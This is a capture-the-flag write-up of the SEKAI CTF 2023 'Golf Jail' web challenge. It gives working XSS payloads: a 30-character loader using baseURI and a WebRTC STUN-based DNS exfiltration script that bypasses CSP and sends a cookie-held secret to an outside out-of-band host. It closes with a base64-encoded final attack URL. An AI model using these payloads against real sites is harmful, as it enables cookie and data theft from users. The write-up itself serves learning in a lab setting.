 ```yaml
---
title: "SEKAI CTF 2023 - Golf Jail"
description: "JS Payload golfing and CSP Bypass using WebRTC"
lead: "JS Payload golfing and CSP Bypass using WebRTC"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "writeup"
weight: 620
toc: true
---
```


> I did not manage to solve it during the CTF, but I decided to make a write-up afterwards as it was a very cool challenge.

## Challenge

I hope you like golfing ⛳🏌️⛳🏌️

- Challenge URL: [https://golfjail.chals.sekai.team/](https://golfjail.chals.sekai.team/)

```html
<?php
    header("Content-Security-Policy: default-src 'none'; frame-ancestors 'none'; script-src 'unsafe-inline' 'unsafe-eval';");
    header("Cross-Origin-Opener-Policy: same-origin");

    $payload = "🚩🚩🚩";
    if (isset($_GET["xss"]) && is_string($_GET["xss"]) && strlen($_GET["xss"]) <= 30) {
        $payload = $_GET["xss"];
    }

    $flag = "SEKAI{test_flag}";
    if (isset($_COOKIE["flag"]) && is_string($_COOKIE["flag"])) {
        $flag = $_COOKIE["flag"];
    }
?>
<!DOCTYPE html>
<html>
    <body>
        <iframe
            sandbox="allow-scripts"
            srcdoc="<!-- <?php echo htmlspecialchars($flag) ?> --><div><?php echo htmlspecialchars($payload); ?></div>"
        ></iframe>
    </body>
</html>
```

> The admin bot only takes URLs of the format https://golfjail.chals.sekai.team/

## TL;DR

Create a tiny XSS to run a second payload contained inside the URL. This second payload will exfiltrate the flag and bypass the CSP using a DNS exfiltration with WebRTC.

## Write-Up

### Code Execution

Using `htmlspecialchars` within the `srcdoc` attribute doesn't prevent against HTML Injection/XSS. The code example below demonstrates that HTML entity codes are effectively interpreted inside the `iframe`. For more details, refer to [attr-iframe-srcdoc](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-srcdoc).

```js
function encodeHTMLEntities(text) {
  var textArea = document.createElement('textarea');
  textArea.innerText = text;
  return textArea.innerHTML;
}

document.write(`<iframe srcdoc='${encodeHTMLEntities("<img src=x onerror=alert()>")}'></iframe>`); 
```

### Tiny XSS

We know how to execute an XSS, our next challenge is to bypass the 30 characters or less filter. To perform an XSS within this limit, we can use the URL to locate a part of our payload.

```python
>>> len("<svg onload=eval(location)>") # about:srcdoc
27
>>> len("<svg onload=eval(top.location)>") # https://golfjail.chals.sekai.team/...
31
>>> len("<svg onload=eval(baseURI)>") # https://golfjail.chals.sekai.team/...
26
```

When you're within an `iframe`, you can't employ the `location` attribute to access the top-level location. Using `top.location` exceeds the character limit. However, you can leverage the [baseURI](https://devdoc.net/web/developer.mozilla.org/en-US/docs/Web/API/Document/baseURI.html) property of the Node (in this case, the iframe). This property provides the absolute base URL of the document housing the node (iframe).

As we cannot directly evalute the `baseURI` property, we can create a string that will contain the URL, close this string and initiate our second payload. This means the second payload resides both within the URL and outside the `xss` parameter, allowing us to bypass the character limit.

```
golfjail.chals.sekai.team/?xss=<svg onload=eval(`'`+baseURI)>#'+PAYLOAD2

1. 'https://golfjail.chals.sekai.team/?xss=<svg onload=eval(`'`+baseURI)>#'
2. +
3. PAYLOAD2

=> eval('https://.../?xss=eval(%60%27%60%2BbaseURI)>#' + PAYLOAD2)
```

### CSP Bypass

Now that we can execute an XSS without dealing with the character size resitriction, our final step is to find a CSP bypass to extract the flag. For this purpose, we can use a DNS exfiltration via WebRTC.

```
Content-Security-Policy:
    default-src 'none';
    frame-ancestors 'none';
    script-src 'unsafe-inline' 'unsafe-eval';
```

WebRTC exfiltration payload:

```js
var flag = document.firstChild.data.split('').map(x=>x.charCodeAt(0).toString(16)).join('').substr(32,48);
var pc = new RTCPeerConnection({
    "iceServers": [{
        "urls": ["stun:" + flag + ".ckpaek22vtc0000kjaw0gj5f8jhyyyyyb.oast.fun"]
    }]
});
pc.createOffer({
    offerToReceiveAudio: 1
}).then(o => pc.setLocalDescription(o));
```

Final payload:

```
https://golfjail.chals.sekai.team/?xss=%3Csvg%20onload=eval(`%27`%2BbaseURI)%3E#'+eval(atob('dmFyIGZsYWcgPSBkb2N1bWVudC5maXJzdENoaWxkLmRhdGEuc3BsaXQoJycpLm1hcCh4PT54LmNoYXJDb2RlQXQoMCkudG9TdHJpbmcoMTYpKS5qb2luKCcnKS5zdWJzdHIoMzIsNDgpOwp2YXIgcGMgPSBuZXcgUlRDUGVlckNvbm5lY3Rpb24oewogICAgImljZVNlcnZlcnMiOiBbewogICAgICAgICJ1cmxzIjogWyJzdHVuOiIgKyBmbGFnICsgIi5ja3BhZWsyMnZ0YzAwMDBramF3MGdqNWY4amh5eXl5eWIub2FzdC5mdW4iXQogICAgfV0KfSk7CnBjLmNyZWF0ZU9mZmVyKHsKICAgIG9mZmVyVG9SZWNlaXZlQXVkaW86IDEKfSkudGhlbihvID0+IHBjLnNldExvY2FsRGVzY3JpcHRpb24obykpOw=='))
```

> **SEKAI{jsjails_4re_b3tter_th4n_pyjai1s!}**
